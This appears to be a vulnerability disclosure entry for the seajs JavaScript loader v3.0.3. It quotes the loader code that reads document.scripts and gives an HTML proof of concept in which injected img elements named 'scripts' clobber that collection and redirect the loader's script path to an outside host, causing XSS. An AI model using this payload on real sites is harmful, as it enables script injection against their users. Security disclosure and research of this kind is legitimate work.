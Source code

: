 ## seajs

### Meta

+ Library: seajs
+ Stars: 8.3K
+ Version: v3.0.3
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx"><img name="scripts" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Reported(Snyk)
+ Foundby: TheHulk


### Library

https://github.com/seajs/seajs


### Vulnerable Code Snippet

```javascript
// https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
var doc = document
var scripts = doc.scripts

// Recommend to add `seajsnode` id for the `sea.js` script element
var loaderScript = doc.getElementById("seajsnode") ||
	scripts[scripts.length - 1]

function getScriptAbsoluteSrc(node) {
	return node.hasAttribute ? // non-IE6/7
		node.src :
		// see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
		node.getAttribute("src", 4)
}
loaderPath = getScriptAbsoluteSrc(loaderScript)
// When `sea.js` is inline, set loaderDir to current working directory
loaderDir = dirname(loaderPath || cwd)
```

### PoC
```html

<!--Library-->
<script src="./sea-modules/seajs/seajs/3.0.3/sea.js"></script>
<script>
// Set configuration
seajs.config({
  alias: {
    "jquery": "jquery/jquery/1.10.1/jquery.js"
  }
});
seajs.use("examples/hello/1.0.0/main");
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```
